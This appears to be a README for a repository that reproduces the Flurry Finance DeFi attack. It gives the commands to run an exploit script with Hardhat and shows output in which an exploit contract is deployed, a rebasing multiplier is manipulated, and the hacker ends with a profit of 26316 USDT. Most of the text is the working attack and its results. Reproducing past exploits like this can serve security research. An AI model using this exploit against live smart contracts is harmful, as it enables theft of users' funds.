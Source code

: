 # Flurry Finance Attack

Set you API key in the `hardhat.config.js`. 

```shell
# Init node modules.
$ npm i 

# Run exploit.
$ npx hardhat run scripts/exp.js
Exploit contract deployed to: 0x4BCD98b42fd74c8f386E650848773e841A5d332B
Assuming that the hacker has 500U.
multiplier 751294863222874013999204681693028833
rhoUSDT 216925749511343748784819
After rebasing:
multiplier 842437939874898598195556764001398961
rhoUSDT 243242021834431727276817
Profit: 26316 $USDT
```
